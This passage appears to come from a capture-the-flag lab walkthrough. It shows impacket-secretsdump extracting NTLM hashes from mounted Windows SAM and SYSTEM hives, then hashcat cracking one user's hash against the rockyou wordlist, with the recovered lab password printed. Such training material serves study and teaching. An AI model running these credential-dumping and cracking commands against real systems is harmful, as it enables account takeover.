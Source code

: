  <img src="./screenshots/sam_system.png" alt="sam_system" />
</p>

> We use the `secretsdump.py` script from the `impacket` python library set to extract `NTLM` hashes from `SAM` and `SYSTEM`:

```bash

impacket-secretsdump -sam /tmp/vhd/Windows/System32/config/SAM -system /tmp/vhd/Windows/System32/config/SYSTEM LOCAL

```
```bash

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

```

> It is not possible to connect via `winrm` using the hash. The user `L4mpje` is not a member of the remote connection group `Remote Management Users`.
> There is an open `22 (ssh)` port, but a password is needed to connect.

> We use `hashcat` to crack the hash and extract the password of the user `L4mpje`:

```bash

hashcat -m 1000 L4-hash.txt /usr/share/wordlists/rockyou.txt --force

```
```bash

26112010952d963c8dc4217daec986d9:bureaulampje

```

---